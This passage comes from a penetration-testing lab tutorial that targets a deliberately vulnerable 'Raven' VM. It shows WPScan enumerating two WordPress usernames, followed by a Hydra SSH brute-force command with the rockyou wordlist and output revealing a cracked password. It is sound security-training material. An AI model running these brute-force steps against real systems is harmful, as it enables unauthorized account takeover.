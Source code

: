 1.  This section of the output shows that two account usernames were found:

    {{< output >}}
[i] User(s) Identified:

[+] steven
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] michael
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
{{< /output >}}

    We could use these usernames to perform a brute force attack on the WordPress authentication page. This attack would identify their WordPress login passwords and provide access to the WordPress dashboard.

    However, having SSH access instead of WordPress access can be a more efficient method of attacking the server. The next section shows how to perform an SSH brute force attack in order to crack Linux user account passwords. This step assumes that the WordPress users also have Linux user accounts on the target server with the same names, which may or may not be true.

    {{< note respectIndent=false >}}
In a real engagement, it is recommended to also perform a WordPress login brute force attack.
{{< /note >}}

## Cracking SSH Passwords

This section shows how to perform an SSH brute force attack with a tool called [Hydra](https://www.kali.org/tools/hydra/), which is a parallelized network login cracker. An SSH brute force attack reveals the password of a Linux user account on the target system. The Hydra tool is installed by default on Kali Linux and Parrot.

The username `michael` is attacked in this section. This is a WordPress user discovered during the [WordPress Enumeration](#wordpress-enumeration) phase. The SSH attack only succeeds if the `michael` username also exists as Linux user account on the target system.

1.  Return to your Kali SSH session in your terminal. Run the Hydra command with these options. Replace `$RAVEN_VM_IP` in this command with your Raven VM's IP:

        sudo hydra -l michael -P /usr/share/wordlists/rockyou.txt.gz -t 4 ssh://$RAVEN_VM_IP

    {{< note respectIndent=false >}}
[The `rockyou` wordlist](https://www.kali.org/tools/wordlists/) used in the brute force attack is pre-packaged with Kali Linux.
{{< /note >}}

1.  Output like the following appears:

    {{< output >}}
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-12-15 13:13:24
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking ssh://172.28.128.13:22/
[22][ssh] host: 172.28.128.13   login: michael   password: michael
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 3 final worker threads did not complete until end.
[ERROR] 3 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-12-15 13:13:37
{{< /output >}}
